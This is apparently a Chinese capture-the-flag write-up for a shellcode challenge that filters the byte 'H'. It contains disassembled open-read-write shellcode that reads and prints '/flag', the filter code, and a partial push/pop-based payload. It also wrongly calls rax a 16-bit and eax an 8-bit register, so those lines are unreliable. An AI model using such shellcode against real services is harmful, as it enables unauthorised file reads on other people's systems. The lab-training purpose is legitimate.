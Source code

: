 ```python
```
```
   0:   48 b8 01 01 01 01 01 01 01 01   movabs rax, 0x101010101010101
   a:   50                      push   rax
   b:   48 b8 2e 67 6d 60 66 01 01 01   movabs rax, 0x1010166606d672e
  15:   48 31 04 24             xor    QWORD PTR [rsp], rax
  19:   48 89 e7                mov    rdi, rsp
  1c:   31 d2                   xor    edx, edx
  1e:   31 f6                   xor    esi, esi
  20:   6a 02                   push   0x2
  22:   58                      pop    rax
  23:   0f 05                   syscall 
  25:   48 89 c7                mov    rdi, rax
  28:   31 c0                   xor    eax, eax
  2a:   31 d2                   xor    edx, edx
  2c:   b6 04                   mov    dh, 0x4
  2e:   48 89 e6                mov    rsi, rsp
  31:   0f 05                   syscall 
  33:   6a 01                   push   0x1
  35:   5f                      pop    rdi
  36:   48 89 c2                mov    rdx, rax
  39:   48 89 e6                mov    rsi, rsp
  3c:   6a 01                   push   0x1
  3e:   58                      pop    rax
  3f:   0f 05                   syscall 
  41:   31 ff                   xor    edi, edi
  43:   6a 3c                   push   0x3c
  45:   58                      pop    rax
  46:   0f 05                   syscall
```
# level 4 过滤字符H ('\x48')
但是对64 位寄存器进行操作，或者处理QWORD 这种 64 位数据，就会在指令级别加上神奇的 REX，与之对应的，导致`\x48`的出现。

- 由于常规指令对16位寄存器和QWORD数据操作会在首部自动添加/x48,因此
   - **对 16 位寄存器 rax 等只能使用pop,push操作**
   - **对 8 位寄存器 eax 等，无限制**
```c
    for (int i = 0; i < shellcode_size; i++)
        if (((uint8_t*)shellcode_mem)[i] == 'H')
        {
            printf("Failed filter at byte %d!\n", i);
            exit(1);
        }
```

## orw 的 pop,push 实现【64 位寄存器】
> x64 系统中 push，pop 对应寄存器只能是 64 位。x86 同理

![联想截图_20240804220153.png](https://i-blog.csdnimg.cn/blog_migrate/b0e9535be3e7880153036196dbe83c4d.png)
分析代码发现最后使用了** rdx 寄存器保存 shellcode **数据。
shellcode 执行之前寄存器状态如下：
![image.png](https://i-blog.csdnimg.cn/blog_migrate/cb44c301439ae25a4d78038ccb5379e5.png)
```
shellcode = asm('''
        push 0
        pop rsi
        push 0x67616C662F   # galf/  但是只能压入flag四字节【即galf】，不能用push完成路径赋值
                              #  可以参见call指令执行时候会把下一个指令压入栈中保存的特性，然后pop完成传参
        pop rdi
        push 0
        pop rdx
```